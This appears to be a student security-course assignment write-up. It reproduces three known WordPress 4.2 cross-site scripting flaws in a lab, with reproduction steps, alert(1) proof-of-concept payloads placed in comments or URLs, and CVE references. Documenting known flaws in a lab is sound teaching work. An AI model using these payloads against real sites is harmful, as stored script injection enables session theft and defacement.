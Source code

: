 # CyberSecurity
Week 7 Assignment - WordPress vs. Kali

Version of WordPress Tested: 4.2

# Vulnerability 1 - Legacy Theme Preview Cross-Site Scripting (XSS)
Steps to reproduce:
1. Go to any post.
2. Paste the following as a comment:
```
<a href='/wp-admin/' title="" style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(1)//'>Test</a>
```
3. Hover over the posted comment.
4. Alert(1) will pop up.

Type of Attack: XSS

Versions: 

[!] Title: WordPress <= 4.2.3 - Legacy Theme Preview Cross-Site Scripting (XSS)

[i] Fixed in: 4.2.4

Sources: 
1. Reference: https://wpvulndb.com/vulnerabilities/8133
2. Reference: https://core.trac.wordpress.org/changeset/33549
3. Reference: https://blog.sucuri.net/2015/08/persistent-xss-vulnerability-in-wordpress-explained.html
4. Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5734

GIF: https://i.imgur.com/AWc0xbA.gif

# Vulnerability 2 - Authenticated Cross-Site Scripting (XSS)
Steps to reproduce:
1. Go to any post.
2. Paste the following as a comment:
```
http://www.example.com/wp-admin/customize.php?theme=<svg onload=alert(1)>
```
3. Alert(1) will pop up.

Type of Attack: XSS

Versions: 

[!] Title: WordPress  3.7-4.4 - Authenticated Cross-Site Scripting (XSS)

[i] Fixed in: 4.2.6

Sources: 
1. Reference: https://wpvulndb.com/vulnerabilities/8358
2. Reference: https://wordpress.org/news/2016/01/wordpress-4-4-1-security-and-maintenance-release/
3. Reference: https://github.com/WordPress/WordPress/commit/7ab65139c6838910426567849c7abed723932b87
4. Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1564

GIF: https://i.imgur.com/ZmwMJau.gif


# Vulnerability 3 - Pupload Same Origin Method Execution (SOME)
Steps to reproduce:
1. Go to any post.
2. Paste the following as a comment:
```
<button onclick="fire()">Click</button>
<script>
function fire() {
 open('javascript:alert(1)');
}
</script>
```
3. Click on the button.
4. Alert(1) will pop up.

Type of Attack: XSS

Versions: 

[!] Title: WordPress <= 4.5.1 - Pupload Same Origin Method Execution (SOME)

[i] Fixed in: 4.2.8

Sources: 
1. Reference: https://wpvulndb.com/vulnerabilities/8489
2. Reference: https://wordpress.org/news/2016/05/wordpress-4-5-2/
3. Reference: https://github.com/WordPress/WordPress/commit/c33e975f46a18f5ad611cf7e7c24398948cecef8
4. Reference: https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e
5. Reference: http://avlidienbrunn.com/wp_some_loader.php
6. Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4566

GIF: https://i.imgur.com/eS4AppI.gif
